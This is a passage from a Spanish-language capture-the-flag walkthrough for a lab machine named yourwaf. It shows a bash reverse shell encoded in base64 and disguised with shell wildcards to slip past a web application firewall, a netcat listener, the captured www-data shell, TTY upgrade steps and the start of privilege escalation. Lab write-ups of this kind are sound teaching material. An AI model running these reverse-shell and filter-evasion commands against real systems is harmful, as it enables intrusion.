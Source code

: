 ```shell
echo 'bash -i >& /dev/tcp/<IP>/<PORT> 0>&1' | base64
/bin/echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuNTAvNzc3NyAwPiYxCg==' | base64 -d | /bin/bash -e # Pero lo codificamos con sustitucion
/???/e??o 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjUuNTAvNzc3NyAwPiYxCg==' | /???/b??e64 -d | /???/b??h -e
```

Antes de enviarlo vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el comando anterior y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.98] 52214
bash: cannot set terminal process group (530): Inappropriate ioctl for device
bash: no job control in this shell
www-data@yourwaf:/var/www/maintenance.yourwaf.nyx$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que vamos a sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user tester

Si investigamos un poco, veremos un archivo bastante interesante del servidor web con el que esta funcionando.

```shell
cd /opt/nodeapp
```
